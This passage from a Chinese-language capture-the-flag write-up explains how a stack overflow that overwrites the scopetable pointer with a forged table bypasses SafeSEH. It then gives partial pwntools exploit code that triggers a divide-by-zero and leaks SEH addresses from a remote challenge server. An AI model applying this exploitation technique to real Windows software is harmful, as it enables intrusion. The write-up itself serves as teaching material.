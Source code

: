 我们可以发现loc40822A就是注册的异常处理函数,看看它干了什么:

[![](https://p3.ssl.qhimg.com/t01db10ea72c3a3c0f5.png)](https://p3.ssl.qhimg.com/t01db10ea72c3a3c0f5.png)

输出You ask a wrong question!后程序就退出了.那么我们可不可以伪造一个scopetable,把后面2个函数指针改为type flag指令的地址呢? 答案是肯定的. 0day书上我们可能只关注sehnext指针和下面的sehhandler.其实再下面4字节正好是指向scopetable的指针.sehhandler是系统指定的,发生异常时会调用sehhandler去处理scopetable, 然后调用scopetable的FilterFunc和HandlerFunc去真正的处理异常.sehhandler只是一个中转,用户实现的异常处理代码是在scopetable里面的,所以只要通过栈溢出覆盖掉scopetable指针为我们伪造的scopetable,就能绕过safeseh了.

### 6.漏洞利用

通过上面的分析已经可以写出完整的exp了,这里结合exp进行介绍

```
from pwn import *
import string
t = remote('121.40.159.66', 6666)
#t = remote('1.1.8.1', 9999)

def calc_esi(ret_addr):
    ret_addr = hex(ret_addr)[2:].zfill(8)
    esi = ''
    for i in ret_addr:
        if i in '1234567890':
            esi+=chr(ord(i)+3)
        elif i in string.ascii_letters:
            esi+=chr(ord(i)+55)
    return esi

print t.recvuntil('stack address = ')
stack_addr = t.recvline()[2:-2]
print stack_addr
stack_addr = int(stack_addr,16)
print t.recvuntil('main address = ')
main_addr = t.recvline()[2:-2]
print main_addr
main_addr_num = int(main_addr,16)
ret_addr = main_addr_num+0x4be3
esi = calc_esi(ret_addr)
print 'esi= ',esi
#esi = hex(ret_addr)[2:].zfill(8)
t.sendline(esi)
```

首先是触发除0异常进入目标函数.实际做题时发现随便输入8字节数据都可以导致除0异常,当时题目换了2次附件,不知道是不是这个原因.  然后是泄露需要的数据:

```
print t.recvuntil('to know more?')
t.sendline('yes')
print t.recvuntil('do you want to know?')
seh_next_addr = stack_addr-(0x19ff10-0x19fee0)
print 'seh_next_addr: ',hex(seh_next_addr)
t.sendline(str(seh_next_addr))
print t.recvuntil('value is 0x')
seh_next = t.recvuntil('rn')[:-2]
print 'seh_next: ',seh_next
seh_next = int(seh_next,16)


print t.recvuntil('to know more?rn')
t.sendline('yes')
print t.recvuntil('do you want to know?rn')
handler_addr = stack_addr-(0x19ff10-0x19fee4)
print 'handler: ',hex(handler_addr)
t.sendline(str(handler_addr))
print t.recvuntil('value is 0x')
```